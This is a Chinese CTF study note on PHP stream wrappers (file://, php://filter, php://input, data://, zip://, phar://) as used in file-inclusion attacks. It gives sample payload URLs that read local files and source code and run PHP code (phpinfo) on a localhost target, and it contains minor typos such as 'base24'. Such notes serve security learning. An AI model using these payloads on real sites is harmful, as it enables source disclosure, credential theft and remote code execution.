 #php伪协议

##我们在ctf中可能遇到的包含函数
```
include( )
require( )
include_once( )
require_once( )
highlight_file( )
show_source( )
readfile( )
file_get_contents( )
fopen( )
file( )

```

PHP伪协议其实就是支持的协议和封装协议，有12种：
```
file:// ——访问本地文件
http://——访问HTTP(s)网址
ftp://——访问FTP(s)URLs
php://——访问各个输入或输出流（I/O streams）
zlib://——压缩流
data://——数据(RFC2397)
glob://——查找匹配的文件路径模式
phar://——PHP归档
ssh2://——Secure Shell2
rar://——RAR
ogg://——音频流
expect://——处理交互的流
```

##file://
file://用于读取本地文件，不受allow_url_fopen和allow_url_include影响

###file://[文件的绝对路径和文件名]
```
http://127.0.0.1/index.php?file=file://D:/soft/xiaocheng.txt

```

###[文件的相对路径和文件名]
```
http://127.0.0.1/index.php?file=./xioacheng.txt

```

###http://网络路径和文件名
```
http://127.0.0.1/xioacheng.txt

```

##php://
###php://用于访问各个输入/输出流（I/O streams)，不受allow_url_fopen影响
```
php://filter 用于读取源码
php://input 用于执行php代码

```
使用上面两种格式的php伪协议格式时，需要allow_url_include是on

###常用php://filter读取文件源码的格式（针对php文件需要base64编码）：
```
php://filter/read=convert.base64-encode/resource=[文件名]（如果文件内容非php语法，则输出源码内容，如果是php语法，则执行php代码）

```
###常用php://input执行php代码的格式（输入的php代码部分需要post提交）
```
php://input[POST DATA]<?php phpinfo(); ?>

```

##zip://协议&bzaip2://协议&zlib://协议
###zip://协议&bzaip2://协议&zlib://协议都属于压缩流，可以用来访问压缩文件中的子文件，而且不需要指定文件名后缀，可修改为任意后缀

###zip://协议使用的格式：
```
zip://[压缩文件的绝对路径]%23[压缩文件内的子文件名](#编码%23）
```
zip://D:\www\xiaocheng.zip%23cheng.txt
```

###compress.bzip2://file.bz2压缩xiaocheng.txt为xiaocheng.bz2并上传（同样支持任意后缀名）
```
compress.bzip2://D:\www\xioacheng.bz2

```

###compress.zlib://file.gz压缩xiaocheng.txt为xiaocheng.gz并上传（同样支持任意后缀名）
```
compress.zlib://D:\www\xiaocheng.gz
```

##data://协议

data://协议可以执行php代码，但是需要allow_url_include和allow_url_fopen是on的，也可以写入文本数据

data://协议常用的格式：
```
data://text/plain,<?php phpinfo(); ?>
```
其它格式：
```
data://,<文本数据>

data://text/plain,<文本数据>

data://text/html,<html代码>

data://text/css,<CSS代码>

data://text/javascript,<js代码>

data://text/gif;base24,<base24编码的gif图片数据>

```

##phar://协议

phar://协议可以访问zip格式压缩包内容
```
http://127.0.0.1/index.php?file=phar://D:\www\xiaocheng.zip\xioacheng.txt
```

详细请看：https://segmentfault.com/a/1190000018991087
	https://www.jianshu.com/p/2fce6931dd06

